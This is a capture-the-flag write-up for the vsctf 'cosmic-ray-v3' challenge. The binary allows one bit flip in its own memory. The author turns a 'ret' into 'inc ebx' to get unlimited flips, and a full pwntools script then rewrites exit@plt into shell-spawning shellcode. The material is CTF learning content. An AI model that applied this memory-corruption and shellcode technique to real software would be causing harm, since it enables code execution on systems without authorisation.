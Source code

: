 # cosmic-ray-v3 \[468 Points] (69 Solves)
```
I promise it's the last one. The grand finale to the cosmic trinity. Good luck!
```
Attached is [dist/](./dist)

---

## Writeup
Decompiling the binary, we find the following function (named `cosmic_ray`)
```c
puts("Enter an address to send a cosmic ray through:");
__isoc99_scanf("0x%lx",&local_30);
/* snip */

local_10 = open("/proc/self/mem",2);
lseek(local_10,local_30,0);
read(local_10,&local_25,1);
/* snip */

puts("Enter the bit position to flip:");
__isoc99_scanf(&DAT_00402098,&local_24);
getchar();

if ((-1 < local_24) && (local_24 < 8)) {
  local_20 = flip_bit(local_18,local_24);
  local_26 = binary_to_byte(local_20);

  putchar('\n');
  printf("Bit succesfully flipped! New value is %d\n\n",(ulong)(uint)(int)local_26);
  lseek(local_10,local_30,0);
  write(local_10,&local_26,1);
  return 0;
}

exit(1)
```
As you can see, we **load the memory of the process itself**, and allowing the user
to **flip any one bit in the memory**. \
This is of course a reference to actual cosmic rays randomly flipping a bit in
old hardware and causing problems.[^1]

Alright, so using _**one**_ flipped bit we need to get RCE. _How do we know what bit to
flip though?_

Interestingly, this challenge **isn't the first iteration of the idea**, and luckily,
my teammate, [ItayB](https://itaybel.github.io/), who solved the v2 last year,
recognized it, and shared [his writeup](https://itaybel.github.io/vsctf2023chals/#cosmic-ray-v2)
with me.

So last year, ItayB used the one bit flip to change _the address in a `jz` of a
canary_ check to get **infinite flips**. With infinite flips he then wrote shellcode
to `plt` of exit.

Ok, but this year we don't have a canary check. But it's clear **we want to get
more flips!**

After looking for some time at the disassembly to find what we could flip, I
noticed a crucial flaw in the challenge \
![Disassembly of cosmic_ray which ends right above main](./images/cosmicrayv3_ret.png) \
**The `cosmic_ray` is right above main!**

_**If only we could change the `ret` into anything else**_, that instead of **returning**,
would **fall-through back into main**, we would basically create a recursive infinite
loop!

I converted the `ret` instruction to a binary representation, and eventually,
found a suitable bit to flip
```py
>>> from pwn import *
>>> context.arch = 'amd64'
>>> bin(asm('ret')[0])
'0b11000011'
>>> disasm(bytes([0b01000011])) # flipped the left most bit
'   0:   43                      inc    ebx'
```
`inc ebx` - won't crash the code and allows the code to continue running downwards. \
Thus flipping this bit, would make **`cosmic_ray` loop back into main
and allow us to get infinite flips!**

From here, similar to ItayB's solve, I dumped with `gdb` the bytes of exit@plt,
(using `x/100b 0x4011a0`) and used them to calculate which bits I should flip to
get the shellcode. \
When the shell code is ready, all is left is to call `exit` and get the sweet RCE!

```py
io = start()

exit_bytes = [0xf3, 0x0f, 0x1e, 0xfa, 0xf2, 0xff, 0x25, 0x5d, 0x2e, 0x00, 0x00, 0x0f, 0x1f, 0x44, 0x00, 0x00, 0xf3, 0x0f, 0x1e, 0xfa, 0x31, 0xed, 0x49, 0x89, 0xd1, 0x5e, 0x48, 0x89, 0xe2, 0x48, 0x83, 0xe4, 0xf0, 0x50, 0x54, 0x45, 0x31, 0xc0, 0x31, 0xc9, 0x48, 0xc7, 0xc7, 0xab, 0x15, 0x40, 0x00, 0xff, 0x15, 0x3b, 0x2e, 0x00, 0x00, 0xf4, 0x66, 0x2e, 0x0f, 0x1f, 0x84, 0x00, 0x00, 0x00, 0x00, 0x00, 0xf3, 0x0f, 0x1e, 0xfa, 0xc3, 0x66, 0x2e, 0x0f, 0x1f, 0x84, 0x00, 0x00, 0x00, 0x00, 0x00, 0x90, 0xb8, 0x10, 0x40, 0x40, 0x00, 0x48, 0x3d, 0x10, 0x40, 0x40, 0x00, 0x74, 0x13, 0xb8, 0x00, 0x00, 0x00, 0x00, 0x48, 0x85]
exit_address = 0x401180
desired_bytes = asm(shellcraft.sh())

def flip(address, bit):
    io.recvuntil(b"through:\n")

    io.sendline(hex(address).encode())
    io.recvuntil(b"flip:")
    io.sendline(str(bit).encode())


flip(0x4015aa, 0) # Flip the MSB (bit number 0) to change RET into `inc ebx`

curr_address = exit_address
for i in range(len(desired_bytes)):
    shellcode_bits = bin(desired_bytes[i])[2:]
    exit_bits = bin(exit_bytes[i])[2:]

    # Fill 0's at the start

    shellcode_bits = "0" * (8 - len(shellcode_bits)) + shellcode_bits 
    exit_bits = "0" * (8 - len(exit_bits)) + exit_bits

    for i in range(len(exit_bits)):
        if exit_bits[i] != shellcode_bits[i]:
            flip(curr_address, i)
    curr_address += 1

flip(0, -1) # Trigger exit@plt and thus the shellcode

io.interactive()
```

[solve.py](./solve.py)

### Success!

**Flag:** `vsctf{4nd_th3_st4r5_4l1gn_0nc3_m0r3}`

## Intended solution
This solution is much easier to find and to exploit than the intended one,
so the **author released a revenge version** of the challenge with this flaw patched,
which I also solved and **have a writeup [here](../cosmic-ray-v3-revenge/README.md)**.

[^1]: https://en.wikipedia.org/wiki/Soft_error
